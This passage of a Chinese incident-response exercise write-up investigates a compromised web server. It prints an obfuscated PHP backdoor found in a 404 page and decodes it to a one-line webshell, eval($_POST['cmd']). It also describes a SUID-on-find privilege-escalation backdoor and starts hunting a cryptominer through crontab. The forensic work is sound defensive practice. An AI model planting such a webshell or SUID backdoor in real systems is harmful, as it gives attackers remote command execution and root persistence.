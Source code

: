 d 盾扫描网站的工作目录

\\wwwroot\\error\\404.php 存在后门

```bash
eval(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));
```

本地 run 一下

```bash
string(20) "eval($_POST['cmd']);"
```

**4、黑客提权后设置的后门文件名称是？flag 格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}**

提权后就是 root 直接看 root 的历史执行命令

[![](assets/1708919884-818202869700ecbce3d93f79c737456c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002827-3f77c64c-cc1f-1.png)

find 被赋予了 suid 权限，攻击者可以利用 suid 提权做后门 find 文件被做了后门

**5、对黑客上传的挖矿病毒进行分析，获取隐藏的 Flag**

找挖矿程序就要找计划任务但是 crontab 指令用不了

看/etc/crontab

[![](assets/1708919884-f27bdfcf7a3915cdf1e346e920ef5623.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002833-42be62fc-cc1f-1.png)
